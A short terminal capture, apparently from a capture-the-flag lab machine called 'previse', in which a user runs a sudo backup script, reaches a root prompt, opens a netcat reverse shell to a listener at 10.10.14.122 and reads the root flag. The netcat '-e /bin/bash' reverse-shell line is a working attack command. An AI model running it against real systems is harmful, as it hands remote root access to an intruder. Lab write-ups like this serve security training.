 ```
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
root@previse:~# whoami
root@previse:~# nc -e /bin/bash 10.10.14.122 443



# nc -lvnp 443

listening on [any] 443 ...
connect to [10.10.14.122] from (UNKNOWN) [10.10.11.104] 36562
id

uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt

dc8bf89e4c22b9e1419461b1f62228b6

```
